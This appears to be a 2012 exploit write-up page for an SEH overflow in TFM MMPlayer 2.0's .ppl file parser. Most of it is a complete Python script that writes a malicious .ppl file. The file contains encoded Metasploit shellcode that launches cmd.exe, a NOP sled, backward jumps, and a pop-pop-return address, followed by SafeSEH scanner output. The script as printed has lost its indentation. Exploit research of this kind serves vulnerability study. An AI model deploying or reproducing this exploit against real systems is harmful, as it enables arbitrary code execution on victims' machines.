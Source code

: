 TFM MMPlayer .ppl File Parsing SEH Overflow
===========================================
date: 02/Sep/2012
summary: TFM MMPlayer SEH overflow via a pop-pop-return overwrite and negative jumps.
tags: exploit, buffer overflow

The TFM MMPlayer version 2.0 has a SEH overflow vulnerability.
Processing specially-crafted `.ppl` file triggers SEH overwrite that
could be leveraged further to gain arbitrary code execution. The exploit
for this vulnerability has been documeneted at [EDB:
19176](http://www.exploit-db.com/exploits/19176/)

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb19176.ppl"

# msfpayload windows/exec CMD=cmd.exe R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 226 (iteration=1)

cmmd = ("\xda\xd5\xb8\x4f\xc1\x95\xae\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x32\x83\xc2\x04\x31\x42\x16\x03\x42\x16\xe2\xba\x3d" +
"\x7d\x27\x44\xbe\x7e\x58\xcd\x5b\x4f\x4a\xa9\x28\xe2\x5a" +
"\xba\x7d\x0f\x10\xee\x95\x84\x54\x26\x99\x2d\xd2\x10\x94" +
"\xae\xd2\x9c\x7a\x6c\x74\x60\x81\xa1\x56\x59\x4a\xb4\x97" +
"\x9e\xb7\x37\xc5\x77\xb3\xea\xfa\xfc\x81\x36\xfa\xd2\x8d" +
"\x07\x84\x57\x51\xf3\x3e\x56\x82\xac\x35\x10\x3a\xc6\x12" +
"\x80\x3b\x0b\x41\xfc\x72\x20\xb2\x77\x85\xe0\x8a\x78\xb7" +
"\xcc\x41\x47\x77\xc1\x98\x80\xb0\x3a\xef\xfa\xc2\xc7\xe8" +
"\x39\xb8\x13\x7c\xdf\x1a\xd7\x26\x3b\x9a\x34\xb0\xc8\x90" +
"\xf1\xb6\x96\xb4\x04\x1a\xad\xc1\x8d\x9d\x61\x40\xd5\xb9" +
"\xa5\x08\x8d\xa0\xfc\xf4\x60\xdc\x1e\x50\xdc\x78\x55\x73" +
"\x09\xfa\x34\x1e\xcc\x8e\x43\x67\xce\x90\x4b\xc8\xa7\xa1" +
"\xc0\x87\xb0\x3d\x03\xec\x4f\x74\x09\x45\xd8\xd1\xd8\xd7" +
"\x85\xe1\x37\x1b\xb0\x61\xbd\xe4\x47\x79\xb4\xe1\x0c\x3d" +
"\x25\x98\x1d\xa8\x49\x0f\x1d\xf9\x2a\xc2\x85\x2c\xc9\x64" +
"\x23\x31")

nop1 = "\x90"*3777
nop2 = "\x90"*100
jmp2 = "\xE9\xA8\xFD\xFF\xFF" # near jump (back) 600B (0xFFFFFDA8)
nseh = pack ('<I', 0x9090C4EB)# short jump (back) 60B (0xFFC4)
cseh = pack ('<I', 0x00401390)# p/p/r 00401390 MMPlayer.exe

sploit = nop1+cmmd+nop2+jmp2+nseh+cseh
#3777 226  100  544

try:
handle = open (file, 'w')
handle.write (sploit)
handle.close ()
print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
print "[-] exception!"

'''
/SafeSEH Module Scanner, item 18
 SEH mode=/SafeSEH OFF
 Base=0x400000
 Limit=0x47c000
 Module version=2.2.0.30
 Module Name=MMPlayer.exe
'''
```
